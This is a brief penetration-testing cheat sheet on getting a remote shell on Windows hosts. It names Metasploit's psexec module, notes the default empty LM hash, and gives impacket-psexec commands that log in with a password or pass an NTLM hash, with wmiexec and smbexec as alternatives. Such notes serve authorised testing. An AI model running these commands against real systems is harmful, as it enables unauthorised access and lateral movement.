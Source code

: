 Default LM-hash: `aad3c435b514a4eeaad3b935b51304fe`

# Metasploit

Module: psexec

# impacket-psexec

Get a shell using username/password:
```bash
impacket-psexec <AD-domain>/<username>:'<password>'@<ip>
```

Get a shell using username/ntlm-hash:
```bash
impacket-psexec <username>@<ip> -hashes <NTLM-hash>
```

Alternatives:
- impacket-wmiexec
- impacket-smbexec